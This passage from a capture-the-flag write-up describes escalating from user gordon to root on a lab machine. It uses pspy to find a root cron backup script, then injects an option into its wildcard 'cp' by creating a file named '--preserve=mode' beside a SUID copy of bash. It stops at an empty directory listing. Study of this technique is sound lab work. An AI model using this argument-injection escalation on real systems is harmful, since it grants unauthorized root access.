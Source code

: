 # Privilege Escalation: Valid Accounts: Local Accounts
Next, I focused my attention on gaining root access. Unfortunately, the user gordon is not a sudoer, and so `sudo -l` was no help.

I setup an HTTP server on my local machine with Python, and then used `wget` to download `pspy64` to the target machine.

```bash
gordon@devie:/tmp$ ./pspy64

...

2024/01/05 18:53:01 CMD: UID=0     PID=1090   | /usr/sbin/CRON -f 
2024/01/05 18:53:01 CMD: UID=0     PID=1092   | /usr/bin/bash /usr/bin/backup 
2024/01/05 18:53:01 CMD: UID=0     PID=1091   | /bin/sh -c /usr/bin/bash /usr/bin/backup 
2024/01/05 18:53:01 CMD: UID=0     PID=1093   | cp report1 report2 report3 /home/gordon/backups/
```
This shows an automated backup process, `/usr/bin/backup`. It appears to run every minute, and with a UID of 0, it is running as the root user.

Investigating further:
```bash
gordon@devie:~$ ls -la /usr/bin/backup 
-rwxr----- 1 root gordon 66 May 12  2022 /usr/bin/backup
gordon@devie:~$ cat /usr/bin/backup 
#!/bin/bash

cd /home/gordon/reports/

cp * /home/gordon/backups/
```
Unfortunately I cannot write to this file, nor can I delete it to replace it with my own script. However, I see that it is performing the `cp` command in my home directory. 

In order to gain root access, I will exploit the script by copying `/bin/bash` to the `~/reports` directory, and setting the SUID bit, so that I can run it as root from the `~/backups` directory.

However, because the `backup` script is using the `cp` command, the copy of `bash` will lose the SUID bit. To prevent this, I need to inject the `-p` flag into the `cp` command. 

First, I tried accomplishing this by just creating a file named '-p' in the `~/reports` directory, but this did not work. It also changed the owner of the files in `~/backups` from root to gordon. I researched and found that the `-p` flag is short for `--preserve=mode` and tried to use this as the filename instead:

```bash
gordon@devie:~/reports$ cp /bin/bash .
gordon@devie:~/reports$ chmod +xs bash 
gordon@devie:~/reports$ echo " " > '--preserve=mode'
gordon@devie:~/reports$ ls -la
total 1180
drwxrwx--- 2 gordon gordon    4096 Jan  6 00:49  .
drwxr-xr-x 5 gordon gordon    4096 Jan  6 00:31  ..
-rwsr-sr-x 1 gordon gordon 1183448 Jan  6 00:49  bash
-rw-rw-r-- 1 gordon gordon       2 Jan  6 00:49 '--preserve=mode'
-rw-r--r-- 1    640 gordon      57 Feb 19  2023  report1
-rw-r--r-- 1    640 gordon      72 Feb 19  2023  report2
-rw-r--r-- 1    640 gordon     100 Feb 19  2023  report3

```
After about a minute, I checked the `~/backups` directory:
```bash
gordon@devie:~/reports$ ls -la ~/backups/
total 1176
drwxrwx--- 2 gordon gordon    4096 Jan  6 00:50 .
drwxr-xr-x 5 gordon gordon    4096 Jan  6 00:31 ..
```